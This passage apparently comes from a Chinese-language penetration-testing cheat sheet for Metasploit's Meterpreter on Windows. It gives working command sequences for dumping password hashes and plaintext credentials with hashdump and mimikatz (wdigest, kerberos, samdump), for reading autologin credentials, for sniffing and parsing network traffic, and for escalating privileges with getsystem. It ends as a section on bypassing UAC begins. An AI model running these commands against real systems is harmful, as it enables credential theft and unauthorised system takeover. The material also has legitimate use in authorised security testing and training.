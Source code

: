 **抓取密码**
```bash
run hashdump                        # 获取用户密码 hash 值

load mimikatz                       # 加载 mimikatz,用于抓取密码,不限于明文密码和 hash 值;
msv                                 # 获取的是 hash 值
ssp                                 # 获取的是明文信息
kerberos
wdigest                             # 读取内存中存放的账号密码明文信息
mimikatz_command -f samdump::hashes # 获取用户 hash
mimikatz_command -f handle::list    # 列出应用进程
mimikatz_command -f service::list   # 列出服务

run windows/gather/credentials/windows_autologin    # 抓取自动登录的用户名和密码
run windows/gather/smart_hashdump

或

use post/windows/gather/hashdump
set session 1
Exploit
```

**sniffer**
```bash
use sniffer
sniffer_interfaces                  # 查看网卡信息
sniffer_start 1                     # 开始在序号为1的网卡上抓包
sniffer_dump 1 xpsp1.cap            # 下载抓取到的数据包
```

对抓取的包进行解包
```bash
use auxiliary/sniffer/psnuffle
set pcapfile 1.cap
run
```

---

### 权限提升

```bash
getuid      # 查看当前权限
getsystem   # 提权
getuid      # 再次查看判断是否提权成功
```

**绕过 UAC**

通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限

1. 什么是 UAC？

    Microsoft 的 Windows Vista 和 Windows Server 2008 操作系统引入了一种良好的用户帐户控制架构,以防止系统范围内的意外更改,这种更改是可以预见的,并且只需要很少的操作量.它是 Windows 的一个安全功能,它支持防止对操作系统进行未经授权的修改,UAC 确保仅在管理员授权的情况下进行某些更改.如果管理员不允许更改,则不会执行这些更改,并且 Windows 系统保持不变.
